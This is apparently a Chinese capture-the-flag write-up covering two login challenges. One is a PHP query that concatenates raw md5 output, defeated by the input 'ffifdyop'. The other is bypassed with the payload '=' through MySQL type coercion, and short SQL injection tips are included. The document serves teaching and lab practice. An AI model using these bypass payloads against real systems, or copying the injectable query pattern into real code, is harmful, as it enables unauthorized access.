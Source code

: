 

# 后台登录
http://www.shiyanbar.com/ctf/2036

php 处理password的代码如下：
```php
<!-- $password=$_POST['password'];
$sql = "SELECT * FROM admin WHERE username = 'admin' and password = '".md5($password,true)."'";
$result=mysqli_query($link,$sql);
    if(mysqli_num_rows($result)>0){
        echo 'flag is :'.$flag;
    }
    else{
        echo '密码错误!';
    } -->
```

```php
$sql = "SELECT * FROM admin WHERE username = 'admin' and password = '".md5($password,true)."'";
该语句构建sql查询， php的.操作符表示字符串拼接, 字符串由下面三个部分构成
1) "SELECT * FROM admin WHERE username = 'admin' and password = '"
2) md5($password,true)
3) "'"
md5($password,true) 函数， MD5报文摘要将以16字节长度的原始二进制格式返回， 然后被转换成字符串
```
寻找$password输入，使得md5返回字符串完成sql注入
```php
<?php
$password = "ffifdyop";
echo md5($password,true);
?>

输出：
'or'6�]��!r,��b
```

# sql 注入

- 判断是否为sql语句， 语句是否使用`'`或者`"`进行闭合
- 使用`#` 注释语句

# 登陆一下好吗??
http://www.shiyanbar.com/ctf/1942

username:'='

password:'='

```sql
create table users(username char(20), password char(20));
insert into users values("admin", "admin");
select * from users where username=''='' and password=''=''; 
# username='' 的结果为0， 0=''比较时，字符串被转为int时变为0， 0=0结果为true
```